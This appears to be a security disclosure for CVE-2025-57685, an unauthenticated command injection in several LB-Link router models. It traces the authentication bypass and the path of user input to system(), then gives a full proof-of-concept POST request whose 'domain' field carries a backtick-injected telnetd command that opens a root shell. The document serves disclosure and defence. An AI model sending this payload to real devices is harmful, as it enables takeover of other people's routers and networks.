 # CVE-ID

**CVE-2025-57685**

# Information

**Vendor of the products:** Shenzhen Bilian Electronic Limited Co., Ltd（LB-Link）

**Vendor's website:** [必联（LB-LINK）官方网站](https://www.b-link.net.cn/)

**Reported by:** Wang JinShuai(3265296623@qq.com)，Tang BingCheng(2640807724@qq.com)

**Affected products:** BL-AC2100 \ BL-WR4000 \ BL-WR9000 \ BL-AC1900 \ BL-X26 \ BL-LTE300

**Affected firmware version:**   BL-AC2100_AZ3 V1.0.4 \ BL-WR4000 v2.5.0 \ BL-WR9000_AE4 v2.4.9 \ BL-AC1900_AZ2 v1.0.2 \ BL-X26_AC8 v1.2.8 \ BL-LTE300_DA4 V1.2.3

**Firmware download address:** [下载中心_必联（LB-LINK）官方网站](https://www.b-link.net.cn/downloads_16.html)

# Overview

The LB-Link routers, including the BL-AC2100_AZ3 V1.0.4, BL-WR4000 v2.5.0, BL-WR9000_AE4 v2.4.9, BL-AC1900_AZ2 v1.0.2, BL-X26_AC8 v1.2.8, and BL-LTE300_DA4 V1.2.3 models, are vulnerable to unauthorized command injection. Attackers can exploit this vulnerability by accessing the /goform/set_serial_cfg interface to gain the highest level of device privileges without authorization, enabling them to remotely execute malicious commands.

# Vulnerability details

By analyzing the binary file `/bin/goahead` of the network device that provides web services, an unauthorized command injection vulnerability was discovered. In the authentication function `websSecurityHandler`, when the URL prefix is `/goform/set_`, the function directly returns 0, allowing unauthorized access whenever the URL prefix is `/goform/set_`.

![image-20250812200309308](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007677.png)

Further analysis of the libc library `libshare-0.0.26.so` revealed a command injection vulnerability in the `bs_SetSerial` function.

The `bs_SetSerial` function is invoked within the `set_serial_cfg` function in the `/bin/goahead` file.

![image-20250812200319638](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007347.png)

In the function corresponding to `set_serial_cfg`, the values of user input fields, such as `domain`, are directly passed to the `bs_SetSerial` function through a structure.

![image-20250812195846287](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508121958456.png) 

![image-20250812195910872](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508121959918.png)In the `bs_SetSerial` function, the values of user input fields, such as `domain`, are assigned to `v14`, then through `snprintf`, they are assigned to the variable `v34`, which is eventually passed to the `bl_do_system` function.

![image-20250812200123556](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007161.png) 

!![image-20250812200141675](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007195.png) 

![image-20250812200340860](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007334.png) 

The final `bl_do_system` function passes the parameters to the `system` function. Since there is no strict parameter validation during the transfer of user-supplied content, an attacker can construct a system command using backticks, such as `telnetd -l /bin/sh -p 1234`, to start the router's `telnetd` service. This allows the attacker to gain the highest level of device privileges and execute arbitrary commands.

![image-20250812200353408](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007541.png)

# POC

```
POST /goform/set_serial_cfg HTTP/1.1
Host: 192.168.16.1
Content-Length: 79
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://192.168.16.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.16.1/login.asp
Accept-Encoding: gzip, deflate, br
Cookie: platform=0
Connection: keep-alive

type=setserialinfo&ser_status=1&network=UDP&domain=`telnetd -l /bin/sh -p 1234`
```

# Effect Demonstration

![image-20250812200520027](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122006512.png)

![image-20250812200532135](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122006613.png)

![image-20250812200546078](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508122007427.png)
